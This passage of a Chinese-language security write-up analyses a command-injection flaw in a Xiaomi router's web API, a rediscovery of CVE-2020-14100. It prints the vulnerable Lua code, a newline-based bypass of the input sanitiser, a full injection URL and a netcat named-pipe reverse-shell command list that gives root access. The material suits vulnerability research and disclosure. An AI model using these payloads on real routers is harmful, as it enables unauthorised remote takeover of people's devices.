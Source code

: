```
                --- `dns1` is injected into a shell command here by a simple concatenation!
                XQFunction.forkExec(
                    "sleep 2; /etc/init.d/ipv6 native " .. dns1 .. ',' .. dns2
                )
    [...]
```  
  
  
这里潜在有问题的函数是XQSecureUtil.parseCmdline在 中声明的解析函数/usr/lib/lua/xiaoqiang/util/XQSecureUtil.lua，它将尝试通过转义不同的字符来清理输入。  
  
```
function parseCmdline(str)
    if XQFunction.isStrNil(str) then
        return ""
    else
        return str:gsub("\\", "\\\\")
                  :gsub("`", "\\`")
                  :gsub("\"", "\\\"")
                  :gsub("%$", "\\$")
                  :gsub("%&", "\\&")
                  :gsub("%|", "\\|")
                  :gsub("%;", "\\;")
    end
end
```  
  
  
由于受到 shell 命令注入的困扰，该dns1变量可以填充\n（0x0a十六进制）以添加任意命令。事实上，\n绕过了该函数所做的安全检查XQSecureUtil.parseCmdline。例如，注入 API URL 中的以下有效负载netcat在 IP192.168.31.161和端口上发出连接请求8282：dns1=anything%0anc 192.168.31.161 8282  
  
  
示例网址：http://192.168.31.1/cgi-bin/luci/;stok=3ab3ea7324a1eb604be37dff197cf504/api/xqnetwork/set_wan6?wanType=native&dns1=anything%0anc%20192.168.31.161%208282  
  
  
我们可以在路由器上执行任何命令，但有一些限制。某些字符使用反斜杠进行转义，但我们可以运行 ased来删除反斜杠以“取消转义”字符。例如，以下命令列表会在路由器上弹出反向 shell：  
  
```
commands = [
    f"rm -f /tmp/f",
    f"mknod /tmp/f p",
    f"echo 'cat /tmp/f|sh -i 2>&1|nc {IP} {PORT} >/tmp/f' > revshell.sh",
    f'sed -i \'s/\\//g\' revshell.sh',
    f"sh revshell.sh"
]
```  
  
  
因此，我们在路由器上有一个反向 shell：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexa7YMMkONpKcUPiaiaVwdscKzv6bYIL5YywrYrhKuibrQXMghj8n7lw6M9oN48PuUY2RfQr1PAmhsg/640?wx_fmt=png&from=appmsg "")  
  
远程代码执行  
  
  
该漏洞实际上是CVE-2020-14100的重复，我们是偶然重新发现的。但是我们现在在路由器上有了第一个根反向 shell，对整个文件系统没有限制，太棒了！  
  